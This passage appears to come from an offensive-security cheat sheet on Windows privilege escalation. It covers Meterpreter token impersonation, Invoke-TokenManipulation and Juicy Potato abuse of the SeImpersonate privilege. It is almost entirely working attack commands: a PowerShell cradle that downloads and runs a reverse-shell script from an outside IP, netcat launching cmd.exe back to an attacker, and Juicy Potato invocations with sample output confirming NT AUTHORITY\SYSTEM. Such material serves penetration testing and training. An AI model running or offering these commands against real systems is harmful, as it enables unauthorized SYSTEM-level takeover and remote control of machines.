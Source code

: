     ```c
    getuid
    getprivs
    use incognito
    list\_tokens -u
    cd c:\temp\
    execute -Hc -f ./rot.exe
    impersonate\_token "NT AUTHORITY\SYSTEM"
    ```

```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```

#### Juicy Potato (Abusing the golden privileges)

> If the machine is **>= Windows 10 1809 & Windows Server 2019** - Try **Rogue Potato**\
> If the machine is **< Windows 10 1809 < Windows Server 2019** - Try **Juicy Potato**

* Binary available at : [ohpe/juicy-potato](https://github.com/ohpe/juicy-potato/releases)

1.  Check the privileges of the service account, you should look for **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after authentication)

    ```powershell
    whoami /priv
    ```
2. Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object
   * [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_7\_Enterprise)
   * [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_8.1\_Enterprise)
   * [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_10\_Enterprise)
   * [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows\_10\_Pro)
   * [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows\_Server\_2008\_R2\_Enterprise)
   * [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows\_Server\_2012\_Datacenter)
   * [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows\_Server\_2016\_Standard)
3.  Execute JuicyPotato to run a privileged command.

    ```powershell
    JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
    JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
    JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
        Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
        ......
        [+] authresult 0
        {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
        [+] CreateProcessWithTokenW OK
    ```

